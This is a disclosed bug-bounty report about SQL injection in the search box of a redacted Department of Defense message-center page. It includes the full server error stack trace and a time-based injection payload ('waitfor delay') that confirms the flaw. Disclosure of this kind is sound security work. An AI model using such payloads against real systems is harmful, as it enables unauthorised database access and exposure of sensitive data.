 # sql injection on  /messagecenter/messagingcenter at https://www.███████/

## Report Details
- **Report ID**: 381758
- **URL**: https://hackerone.com/reports/381758
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-07-14T23:01:00.139Z
- **Disclosed**: 2019-10-08T18:47:55.877Z

## Reporter
- **Username**: modam3r5
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi , 
i would like to report an issues that lead to SQL injection in search box at https://www.████/messagecenter/messagingcenter , if you add the character `'` that usually used to test if the site have in `sql injection `  the site will return with  `Incorrect syntax` error that can confirm the site is effected with this bug .

#POC 
open the following link and enter `'` in the box will see this error in response https://www.█████████/messagecenter/messagingcenter 

```
Server Error in '/' Application.
Unclosed quotation mark after the character string ' ORDER BY StartDate2 DESC'.
Incorrect syntax near ' ORDER BY StartDate2 DESC'.
Description: An unhandled exception occurred during the execution of the current web request. Please review the stack trace for more information about the error and where it originated in the code.

Exception Details: System.Data.SqlClient.SqlException: Unclosed quotation mark after the character string ' ORDER BY StartDate2 DESC'.
Incorrect syntax near ' ORDER BY StartDate2 DESC'.

Source Error:

An unhandled exception was generated during the execution of the current web request. Information regarding the origin and location of the exception can be identified using the exception stack trace below.

Stack Trace:


[SqlException (0x80131904): Unclosed quotation mark after the character string ' ORDER BY StartDate2 DESC'.
Incorrect syntax near ' ORDER BY StartDate2 DESC'.]
   System.Data.SqlClient.SqlConnection.OnError(SqlException exception, Boolean breakConnection, Action`1 wrapCloseInAction) +1787822
   System.Data.SqlClient.SqlInternalConnection.OnError(SqlException exception, Boolean breakConnection, Action`1 wrapCloseInAction) +5341894
   System.Data.SqlClient.TdsParser.ThrowExceptionAndWarning(TdsParserStateObject stateObj, Boolean callerHasConnectionLock, Boolean asyncClose) +546
   System.Data.SqlClient.TdsParser.TryRun(RunBehavior runBehavior, SqlCommand cmdHandler, SqlDataReader dataStream, BulkCopySimpleResultSet bulkCopyHandler, TdsParserStateObject stateObj, Boolean& dataReady) +1693
   System.Data.SqlClient.SqlDataReader.TryConsumeMetaData() +61
   System.Data.SqlClient.SqlDataReader.get_MetaData() +90
   System.Data.SqlClient.SqlCommand.FinishExecuteReader(SqlDataReader ds, RunBehavior runBehavior, String resetOptionsString) +377
   System.Data.SqlClient.SqlCommand.RunExecuteReaderTds(CommandBehavior cmdBehavior, RunBehavior runBehavior, Boolean returnStream, Boolean async, Int32 timeout, Task& task, Boolean asyncWrite, SqlDataReader ds) +1421
   System.Data.SqlClient.SqlCommand.RunExecuteReader(CommandBehavior cmdBehavior, RunBehavior runBehavior, Boolean returnStream, String method, TaskCompletionSource`1 completion, Int32 timeout, Task& task, Boolean asyncWrite) +177
   System.Data.SqlClient.SqlCommand.RunExecuteReader(CommandBehavior cmdBehavior, RunBehavior runBehavior, Boolean returnStream, String method) +53
   System.Data.SqlClient.SqlCommand.ExecuteReader(CommandBehavior behavior, String method) +137
   System.Data.SqlClient.SqlCommand.ExecuteDbDataReader(CommandBehavior behavior) +41
   System.Data.Common.DbCommand.System.Data.IDbCommand.ExecuteReader(CommandBehavior behavior) +10
   System.Data.Common.DbDataAdapter.FillInternal(DataSet dataset, DataTable[] datatables, Int32 startRecord, Int32 maxRecords, String srcTable, IDbCommand command, CommandBehavior behavior) +140
   System.Data.Common.DbDataAdapter.Fill(DataSet dataSet, Int32 startRecord, Int32 maxRecords, String srcTable, IDbCommand command, CommandBehavior behavior) +316
   System.Data.Common.DbDataAdapter.Fill(DataSet dataSet) +88
   GCSS_Army.MessageCenter.MessagingCenter.getMessages(String ssql) in C:\Users\████████\source\repos\New GCSS-Army\WebApplication4\WebApplication4\MessageCenter\MessagingCenter.aspx.cs:171
   GCSS_Army.MessageCenter.MessagingCenter.btnSearch_Click(Object sender, EventArgs e) in C:\Users\████\source\repos\New GCSS-Army\WebApplication4\WebApplication4\MessageCenter\MessagingCenter.aspx.cs:275
   System.Web.UI.WebControls.Button.OnClick(EventArgs e) +9663950
   System.Web.UI.WebControls.Button.RaisePostBackEvent(String eventArgument) +103
   System.Web.UI.WebControls.Button.System.Web.UI.IPostBackEventHandler.RaisePostBackEvent(String eventArgument) +10
   System.Web.UI.Page.RaisePostBackEvent(IPostBackEventHandler sourceControl, String eventArgument) +13
   System.Web.UI.Page.RaisePostBackEvent(NameValueCollection postData) +35
   System.Web.UI.Page.ProcessRequestMain(Boolean includeStagesBeforeAsyncPoint, Boolean includeStagesAfterAsyncPoint) +1724

```

you can used this command `1'; waitfor delay '0:0:2' -- ` and the error page will return after `2` second

## Impact

An attacker may execute arbitrary SQL statements on the vulnerable system. This may compromise the integrity of your database and/or expose sensitive information.

## Attachments
No attachments
